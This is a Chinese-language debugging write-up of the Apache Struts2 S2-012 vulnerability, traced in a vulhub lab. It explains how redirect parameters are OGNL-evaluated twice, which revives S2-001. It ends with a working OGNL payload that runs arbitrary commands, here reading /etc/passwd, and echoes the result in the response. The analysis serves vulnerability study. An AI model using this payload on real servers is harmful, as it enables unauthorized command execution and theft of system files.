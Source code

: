 从漏洞公告中获悉漏洞会出现的场景：如果一个Action定义了一个变量比如`uname`，当触发了`redirect`类型的返回时，如果重定向的`url`后面带有`?uname=${uname}`，则在这个过程中会对`uname`参数的值进行OGNL表达式计算。

下面用`vulhub/struts2/s2-012`中的应用进行调试分析。

该应用中定义了`UserAction`，并配置了`redirect`类型的返回，重定向的地址`url`为：`/index.jsp?name=${name}`，如下图：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d56278b12cddda8afd423a538ce531f9edb09895.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d56278b12cddda8afd423a538ce531f9edb09895.png)

从漏洞公告中可获悉，漏洞是发生在返回阶段。根据Struts2/XWork的运行主线的可知，`ActionInvocation`在调度完`Action`对象后，便会去调度`Result`对象，如下图：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-4056d047f92d82d6acf2aca454bb9cde88c5e317.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-4056d047f92d82d6acf2aca454bb9cde88c5e317.png)

> 关于Struts2的运行主线等原理的详解可参考陆舟的《Struts2技术内幕》

所以，我们可以在Struts2的核心调度对象`DefaultActionInvocation`中开始调度`Result`处下断点，如下图：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d4e56ebc2334a90044b764474b4525b492ab607c.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d4e56ebc2334a90044b764474b4525b492ab607c.png)

继续调试，在`StrutsResultSupport#conditionalParse()`方法中，出现了一个熟悉的身影：`TextParseUtil#translateVariables()`，没错，这个方法在`S2-001`的漏洞触发执行栈中出现过。

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d5bd41bd372658464af5b661989ee9b4b6726be1.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d5bd41bd372658464af5b661989ee9b4b6726be1.png)

可是`S2-001`漏洞不是早就被修复了吗，为什么还能通过`TextParseUtil#translateVariables()`去触发漏洞？

经调试发现，这里与`S2-001`还是稍有不同，这里调用的是`TextParseUtil`的一个重载方法，其中，第一个参数是一个`char`数组。而且如下图可以看到这里传入了包含两个元素的`char`数组，这就是`S2-012`为什么可以用`S2-001`的PoC直接打的关键。为什么呢，继续往下看。

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-6c637ffeae6f68751247937d134dd1fe811468b8.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-6c637ffeae6f68751247937d134dd1fe811468b8.png)

可以看到，这里的`while(true)`循环被放置到一个`for`循环里了，且`for`循环的次数由`char`数组`openChars`的长度决定，而这里传入的`openChars`的长度为`2`,两个元素分别为`$`和`%`字符。所以下面的`while(true)`循环会执行两次，第一次是解析`${name}`，解析得到结果后，继续对结果`%{xxx}`进行解析。因此使得`S2-001`漏洞重现了。(是不是感觉挺有意思的^\_^)

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d68a336fb9c84c862925777b457522951796bf73.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d68a336fb9c84c862925777b457522951796bf73.png)

### 可回显PoC

综上，这里可以直接用`S2-001`的PoC执行任意命令：

```php
%{#p=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat","/etc/passwd"})).start(),
#is=#p.getInputStream(),
#br=new java.io.BufferedReader(new java.io.InputStreamReader(#is)),
#arr=new char[50000],
#br.read(#arr),
#str=new java.lang.String(#arr),
#writer=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),
#writer.println(#str),
#writer.flush(),
#writer.close()}
```
